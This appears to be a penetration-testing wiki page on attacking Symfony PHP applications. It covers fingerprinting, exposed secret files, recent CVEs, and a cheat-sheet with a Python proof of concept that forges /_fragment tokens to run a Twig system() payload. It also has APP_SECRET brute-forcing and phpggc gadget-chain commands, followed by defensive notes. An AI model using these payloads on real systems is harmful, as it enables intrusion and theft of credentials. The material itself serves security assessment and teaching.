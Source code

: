 # Symfony

Symfony is one of the most widely-used PHP frameworks and regularly appears in assessments of enterprise, e-commerce and CMS targets (Drupal, Shopware, Ibexa, OroCRM … all embed Symfony components).  This page collects offensive tips, common mis-configurations and recent vulnerabilities you should have on your checklist when you discover a Symfony application.

> Historical note: A large part of the ecosystem still runs the **5.4 LTS** branch (EOL **November 2025**).  Always verify the exact minor version because many 2023-2025 security advisories only fixed in patch releases (e.g. 5.4.46 → 5.4.50).

---

## Recon & Enumeration

### Finger-printing
* HTTP response headers: `X-Powered-By: Symfony`, `X-Debug-Token`, `X-Debug-Token-Link` or cookies starting with `sf_redirect`, `sf_session`, `MOCKSESSID`.
* Source code leaks (`composer.json`, `composer.lock`, `/vendor/…`) often reveal the exact version:
  ```bash
  curl -s https://target/vendor/composer/installed.json | jq '.[] | select(.name|test("symfony/")) | .name,.version'
  ```
* Public routes that only exist on Symfony:
  * `/_profiler`   (Symfony **Profiler** & debug toolbar)
  * `/_wdt/<token>` (“Web Debug Toolbar”)  
  * `/_error/{code}.{_format}` (pretty error pages)  
  * `/app_dev.php`, `/config.php`, `/config_dev.php` (pre-4.0 dev front-controllers)
* Wappalyzer, BuiltWith or ffuf/feroxbuster wordlists: `symfony.txt` → look for `/_fragment`, `/_profiler`, `.env`, `.htaccess`.

### Interesting files & endpoints
| Path | Why it matters |
|------|----------------|
| `/.env`, `/.env.local`, `/.env.prod` | Frequently mis-deployed → leaks `APP_SECRET`, DB creds, SMTP, AWS keys |
| `/.git`, `.svn`, `.hg` | Source disclosure → credentials + business logic |
| `/var/log/*.log`, `/log/dev.log` | Web-root mis-configuration exposes stack-traces |
| `/_profiler` | Full request history, configuration, service container, **APP_SECRET** (≤ 3.4) |
| `/_fragment` | Entry point used by ESI/HInclude.  Abuse possible once you know `APP_SECRET` |
| `/vendor/phpunit/phpunit/phpunit` | PHPUnit RCE if accessible (CVE-2017-9841) |
| `/index.php/_error/{code}` | Finger-print & sometimes leak exception traces |

---

## High-impact Vulnerabilities (2023-2025)

### 1. APP_SECRET disclosure ➜ RCE via `/_fragment` (aka “secret-fragment”)
* **CVE-2019-18889** originally, but *still* appears on modern targets when debug is left enabled or `.env` is exposed.
* Once you know the 32-char `APP_SECRET`, craft an HMAC token and abuse the internal `render()` controller to execute arbitrary Twig:
  ```python
  # PoC – requires the secret
  import hmac, hashlib, requests, urllib.parse as u
  secret = bytes.fromhex('deadbeef…')
  payload = "{{['id']|filter('system')}}"   # RCE in Twig
  query = {
      'template': '@app/404.html.twig',
      'filter': 'raw',
      '_format': 'html',
      '_locale': 'en',
      'globals[cmd]': 'id'
  }
  qs = u.urlencode(query, doseq=True)
  token = hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest()
  r = requests.get(f"https://target/_fragment?{qs}&_token={token}")
  print(r.text)
  ```
* Excellent write-up & exploitation script: Ambionics blog (linked in References).

### 2. Windows Process Hijack – CVE-2024-51736
* The `Process` component searched the current working directory **before** `PATH` on Windows.  An attacker able to upload `tar.exe`, `cmd.exe`, etc. in a writable web-root and trigger `Process` (e.g. file extraction, PDF generation) gains command execution.
* Patched in 5.4.50, 6.4.14, 7.1.7.

### 3. Session-Fixation – CVE-2023-46733
* Authentication guard reused an existing session ID after login.  If an attacker sets the cookie **before** the victim authenticates, they hijack the account post-login.

### 4. Twig sandbox XSS – CVE-2023-46734
* In applications that expose user-controlled templates (admin CMS, email builder) the `nl2br` filter could be abused to bypass the sandbox and inject JS.

### 5. Symfony 1 gadget chains (still found in legacy apps)
* `phpggc symfony/1 system id` produces a Phar payload that triggers RCE when an unserialize() happens on classes such as `sfNamespacedParameterHolder`.  Check file-upload endpoints and `phar://` wrappers.


{{#ref}}
../../pentesting-web/deserialization/php-deserialization-+-autoload-classes.md
{{#endref}}

---

## Exploitation Cheat-Sheet

### Calculate HMAC token for `/_fragment`
```bash
python - <<'PY'
import sys, hmac, hashlib, urllib.parse as u
secret = bytes.fromhex(sys.argv[1])
qs     = u.quote_plus(sys.argv[2], safe='=&')
print(hmac.new(secret, qs.encode(), hashlib.sha256).hexdigest())
PY deadbeef… "template=@App/evil&filter=raw&_format=html"
```

### Bruteforce weak `APP_SECRET`
```bash
cewl -d3 https://target -w words.txt
symfony-secret-bruteforce.py -w words.txt -c abcdef1234567890 https://target
```

### RCE via exposed Symfony Console
If `bin/console` is reachable through `php-fpm` or direct CLI upload:
```bash
php bin/console about        # confirm it works
php bin/console cache:clear --no-warmup
```
Use deserialization gadgets inside the cache directory or write a malicious Twig template that will be executed on the next request.

---

## Defensive notes
1. **Never deploy debug** (`APP_ENV=dev`, `APP_DEBUG=1`) to production; block `/app_dev.php`, `/_profiler`, `/_wdt` in the web-server config.
2. Store secrets in env vars or `vault/secrets.local.php`, *never* in files accessible through the document-root.
3. Enforce patch management – subscribe to Symfony security advisories and keep at least the LTS patch-level.
4. If you run on Windows, upgrade immediately to mitigate CVE-2024-51736 or add a `open_basedir`/`disable_functions` defence-in-depth.

---

### Useful offensive tooling
* **ambionics/symfony-exploits** – secret-fragment RCE, debugger routes discovery.
* **phpggc** – Ready-made gadget chains for Symfony 1 & 2.
* **sf-encoder** – small helper to compute `_fragment` HMAC (Go implementation).

## References
* [Ambionics – Symfony “secret-fragment” Remote Code Execution](https://www.ambionics.io/blog/symfony-secret-fragment)
* [Symfony Security Advisory – CVE-2024-51736: Command Execution Hijack on Windows Process Component](https://symfony.com/blog/cve-2024-51736-command-execution-hijack-on-windows-with-process-class)

